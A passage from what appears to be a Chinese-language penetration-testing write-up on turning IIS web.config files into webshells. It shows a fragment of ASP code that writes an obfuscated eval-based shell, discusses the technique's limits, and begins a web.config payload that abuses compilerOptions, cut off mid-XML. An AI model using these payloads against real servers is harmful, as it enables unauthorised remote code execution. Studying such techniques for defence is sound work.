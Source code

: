 wf.WriteLine("var BPAA=TALN(13) + TALN(22) + TALN(4) + TALN(20) + TALN(6) +
TALN(23);")

wf.Write("ev")

wf.WriteLine("al(NZRS, BPAA);")

wf.WriteLine("%\>")

wf.Close

Response.write("<!-"&"-") %>

  

  

当然还有更多姿势，比如混淆写入 shell 等等，可以尝试的空间还有很多。

  

这种方法虽让很方便，不过目前已知的局限有：

  

1\. 从配置文件中也看到，将解析代码的任务交给 asp.dll ，只能解析 asp 格式脚本，也就是 vbscript
代码，会有一定的限制。引入别的运行库是否能突破这个限制尚未经过身份研究；

2\. 如果不用小马，使用WScript.shell
对象直接执行命令时，会存在一定限制，部分命令无法执行在网页上的回显乱码或不完整（可能系统语言及相关配置有关）；

3\. 如果 IIS 应用程序配置的足够安全，可能会禁止类似的代码执行，此时这种方法无法生效。

探索 web.config 的更进一步利用

从上面的web.config 的配置我们已经意识到了，web.config 非常灵活，也许他还有更多的潜力，所以尝试探索更多 get-shell 的方法：

  

参考链接：https://xz.aliyun.com/t/6037

  

这篇文章给了更多的 payload 的样例，先就这篇文章中涉及的点做一些阐释：

  

文章中第一类情况未经充分测试，所以无法明确它的稳定性。但是针对他们的特性，在真实环境中的应用可能比较受限，可以被利用的配置项
AspNetCoreModule，machineKey，buildProviders ，httpHandler 等不能在子目录的 web.config
被配置，真实渗透环境下要慎用。

  

第二类情况适用于子目录，而且我们的需求具有针对性，主要的目的还是 “web.config -> webshell
”，接下来重点介绍其中一种方法：“利用compilerOptions属性写入 webshell”。

  

还是先贴出 payload:

<?xml version="1.0" encoding="UTF-8"?>

<configuration>

    <system.web>

        <httpRuntime targetFramework="4.67.1"/>

        <compilation tempDirectory="" debug="True" strict="False" explicit="False" batch="True"
